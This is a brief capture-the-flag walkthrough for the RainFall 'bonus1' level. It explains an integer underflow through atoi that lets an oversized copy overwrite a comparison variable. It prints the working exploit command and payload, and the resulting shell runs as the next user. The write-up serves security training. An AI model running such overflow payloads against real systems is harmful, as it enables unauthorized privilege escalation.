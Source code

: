 
# Walkthrough

## Disassembling the executable

see source.c

## Exploit

The program expects two arguments, an number and a string. The number is converted into an integer with atoi.

The n character of the string is copied into a buffer.

(Underflow): We exploited the absence of check of the return value to allocate more than 9 bytes.

This way we can write over the number 'ret' to match the comparison. We get a shell.


```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c "print('A' * 40 + '\x46\x4c\x4f\x57')")
$ whoami
bonus2
```
